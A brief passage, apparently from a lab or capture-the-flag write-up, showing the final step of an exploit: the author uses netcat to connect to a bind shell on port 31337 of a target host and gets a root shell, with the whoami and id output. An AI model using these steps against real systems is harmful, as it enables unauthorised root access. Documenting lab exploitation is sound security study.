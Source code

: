 ```plaintext
221 2.0.0 localhost.localdomain closing connection
```

Now I'll be able to connect to target machine's bind shell and gain RCE as root.

`nc -nv "$TARGET" 31337`

> May need to run the exploit again if unable to connect to the bind shell
{: .prompt-info }

```plaintext
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.114.42:31337.
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```
